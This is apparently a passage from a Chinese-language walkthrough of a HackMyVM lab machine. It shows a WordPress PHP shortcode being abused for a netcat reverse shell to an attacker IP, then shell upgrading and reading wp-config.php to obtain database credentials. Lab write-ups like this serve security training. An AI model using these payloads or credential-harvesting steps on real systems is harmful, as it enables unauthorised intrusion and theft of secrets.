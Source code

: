 <img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404091729394.png" alt="image-20240409162911408" style="zoom: 33%;" />

改为`[php]`又可以执行了，嘶，看来不能随便作妖。。。

对了，我中间把所有者改为`admin`了，但是好像没啥关系。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404091729395.png" alt="image-20240409163159228" style="zoom: 33%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404091729396.png" alt="image-20240409163144277" style="zoom:33%;" />

尝试反弹shell！！！！

```bash
# payload
[php]
<?php system('nc -e /bin/bash 172.20.10.8 1234') ?>
[/php]
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404091729397.png" alt="image-20240409163502033" style="zoom:33%;" />

它在上传，但是其实已经弹回来了，nuo：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404091729398.png" alt="image-20240409163517778" style="zoom:50%;" />

## 提权

### 提升交互性

```bash
/usr/bin/script -qc /bin/bash /dev/null
export TERM=xterm

python3 -c 'import pty;pty.spawn("/bin/bash")'
```

都行。

### 信息搜集

```bash
(remote) www-data@tiny.hmv:/var/www/html$ ls
index.nginx-debian.html  readme.html      wp-admin              wp-config-sample.php  wp-cron.php        wp-load.php   wp-settings.php   xmlrpc.php
index.php                robots.txt       wp-blog-header.php    wp-config.php         wp-includes        wp-login.php  wp-signup.php
license.txt              wp-activate.php  wp-comments-post.php  wp-content            wp-links-opml.php  wp-mail.php   wp-trackback.php
(remote) www-data@tiny.hmv:/var/www/html$ cat wp-config.php 
// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpressdb' );

/** Database username */
define( 'DB_USER', 'wordpressuser' );

/** Database password */
define( 'DB_PASSWORD', '6rt443RKhwTXjWDe' );
```
